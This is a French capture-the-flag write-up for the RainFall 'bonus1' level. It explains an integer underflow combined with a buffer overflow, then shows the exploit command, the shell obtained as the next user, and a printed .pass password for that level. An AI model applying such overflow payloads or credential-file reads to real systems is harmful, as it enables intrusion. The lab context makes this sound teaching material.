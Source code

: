 # bonus1

Pour alouer assez de mémoire tout en passant la première condition, il faut faire un int underflow sur `count`

On a besoin d'allouer au moins 44 bytes pour overwrite la variable en dehors du buffer, j'ai donc fait un petit programme en C pour trouver une valeur qui convient: `-2147483637`

Ensuite, on a juste a remplir le buffer de 40 charactères aléatoires suivis de la valeur qu'on veut donner à la variable

```sh
bonus1@RainFall:~$ ./bonus1 -2147483637 `perl -e 'print "A"x40 . "\x46\x4c\x4f\x57";'`
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

